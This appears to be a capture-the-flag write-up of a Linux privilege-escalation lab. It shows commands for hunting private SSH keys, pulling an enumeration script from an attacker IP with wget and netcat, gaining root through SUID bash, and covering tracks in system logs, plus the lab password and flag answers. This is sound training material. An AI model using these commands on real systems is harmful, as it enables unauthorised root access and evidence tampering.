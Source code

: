 ```yaml
---
description: Networking - Priv Esc
---
```


# The Rogue Gnome

## Video

{% embed url="https://www.youtube.com/watch?v=\_SMxZPne5QU" %}

## Resources

[DVWA \(Damn Vulnerable Web App\)](http://www.dvwa.co.uk/)

`whoami` name of the account

`echo $0`  our shell

`python -c 'import pty; pty.spawn("/bin/bash")'`  spawn another shell and make it interactive

We're using `find` to search the volume, by specifying the root \(`/`\) to search for files named "id\_rsa" which is the name for _private_ SSH keys, and then using `2> /dev/null` to only show matches to us.

`find / -name id_rsa 2> /dev/null`

### The "Priv Esc Checklist"

1. Determining the kernel of the machine \(kernel exploitation such as Dirtyc0w\)
2. Locating other services running or applications installed that may be abusable \(SUID & out of date software\)
3. Looking for automated scripts like backup scripts \(exploiting crontabs\)
4. Credentials \(user accounts, application config files..\)
5. Mis-configured file and directory permissions

### Cheatsheets

* [g0tmi1k](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation)
* [payatu](https://payatu.com/guide-linux-privilege-escalation)
* [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#linux---privilege-escalation)

### SUID 101

 [GTFOBins](https://gtfobins.github.io/)

`find / -perm -u=s -type f 2>/dev/null`

### Enumeration Scripts

[LinEnum](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh)

### Transfer Scripts

`python3 -m http.server 8080`

`nc -l -p 1337 > LinEnum.sh`    `nc -w -3 10.10.6.64 1337 < LinEnum.sh`

### Covering our Tracks

* "/var/log/auth.log" \(Attempted logins for SSH, changes too or logging in as system users:\)
* "/var/log/syslog" \(System events such as firewall alerts:\)
* "/var/log/&lt;service/" -- /var/log/apache2/access.log"

## Challenge

### What type of privilege escalation involves using a user account to execute commands as an administrator?

{% hint style="success" %}
vertical
{% endhint %}

### What is the name of the file that contains a list of users who are a part of the `sudo` group?

{% hint style="success" %}
sudoers
{% endhint %}

### Use SSH to log in to the vulnerable machine like so: `ssh cmnatic@10.10.6.64`

 Input the following password when prompted: **aoc2020**

![](../.gitbook/assets/image%20%2831%29.png)

{% hint style="success" %}
No answer needed
{% endhint %}

### Enumerate the machine for executables that have had the SUID permission set. Look at the output and use a mixture of [GTFObins](https://gtfobins.github.io/) and your researching skills to learn how to exploit this binary.

You may find uploading some of the enumeration scripts that were used during today's task to be useful.

```text
wget 10.14.4.204:8080/LinEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh
```

![](../.gitbook/assets/image%20%2825%29.png)

![](../.gitbook/assets/image%20%2819%29.png)

> https://gtfobins.github.io/gtfobins/bash/

```text
bash -p
```

![](../.gitbook/assets/image%20%2843%29.png)

{% hint style="success" %}
No answer needed
{% endhint %}

Use this executable to launch a system shell as root.

### What are the contents of the file located at **/root/flag.txt**?

```text
cat /root/flag.txt
```

![](../.gitbook/assets/image%20%2874%29.png)

{% hint style="success" %}
thm{2fb10afe933296592}
{% endhint %}

